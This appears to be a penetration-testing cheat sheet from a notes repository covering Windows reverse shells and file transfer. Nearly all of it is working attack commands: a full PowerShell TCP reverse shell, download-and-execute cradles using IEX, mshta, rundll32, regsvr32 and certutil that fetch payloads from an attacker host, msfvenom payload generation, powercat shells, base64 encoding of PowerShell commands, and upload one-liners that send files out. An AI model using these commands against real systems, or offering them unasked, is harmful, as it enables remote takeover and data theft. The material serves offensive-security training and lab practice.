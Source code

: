 ## [../](../)

# Shells

### Windows one-liners

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

### powershell.exe

```text
$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```text
# serve shell.ps1
python3 -m http.server <port>

# execute on target
powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LPORT>/shell.ps1\");"
```

#### Creating encoded powershell commands on linux

```text
echo -n "IEX (New-Object Net.WebClient).downloadstring('<thing_to_execute>')" | iconv --to-code UTF-16LE | base64 -w 0
```

### mshta.exe

Runs .hta \(HTML Application\) files

```text
# first, we generate hta-psh file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f hta-psh -o <file>.hta

# then we start server
python3 -m http.server <port>

# and run command on target host
mshta.exe http://<LHOST>:<port>/<file>.hta
```

```text
use exploit/windows/misc/hta_server

mshta.exe http://<attacker>/<path>.hta
```

### rundll32.exe

```text
# first, we generate dll file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f dll -o <file>.dll

# serve a file throught smb
sudo python3 ../smbserver.py -smb2support -user <user> -password <pass> <share> `pwd`

# execute on target
rundll32.exe \\<lhost>\<share>\<file>.dll,0
```

```text
use exploit/windows/smb/smb_delivery

rundll32.exe \\<attacker>\<path>\<file>.dll,0
```

### regsrv32.exe

```text
use exploit/multi/script/web_delivery

regsvr32 /s /n /u /i:http://<attacker>:<p>/<file>.sct scrobj.dll
```

### certutil.exe

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=<lhost> lport=<lport> -f exe > shell.exe

# host generated file
python3 -m http.server 80

# start listener (exploit/multi/handler)

certutil.exe -urlcache -split -f http://<target>/shell.exe shell.exe & shell.exe
```

### powershell.exe \(with powercat\)

```text
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker>/powercat.ps1');powercat -c <attacker> -p <port> -e cmd"
```

### more ...

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

# Transfering files

### Powercat

```text
# source
powercat -c <ip> -p <port> -i C:\<src_path>

# destination
powercat -l -p <port> -of C:\<dst_path>
```

### HTTP server + Powershell

```text
# create server on attacker machine with one of these
python3 -m http.server <port>
python2 -m SimpleHTTPServer <port>
php -S 0.0.0.0:<port>
ruby -run -e httpd . -p <port>
busybox -f -p <port>

# download with powershell oneliner
## download file
(New-Object System.Net.WebClient).DownloadString("<source>","<destination>")

## execute powershell script without touching disk
iex (New-Object System.Net.WebClient).DownloadString("<source>")

## upload file
iex (New-Object System.Net.WebClient).UploadFile("<destination>", "<file>")
```

### pure-ftp

```text
# ftp server needs to be configured before

echo open <attacker> 21 > ftp.txt
echo user <user> >> ftp.txt
echo <pass> >> ftp.txt
echo bin >> ftp.txt
echo get <file> >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

### exe2hex

```text
upc -9 <file>
exe2hex -x <file> -p <output>.cmd
# copy paste into target terminal
```

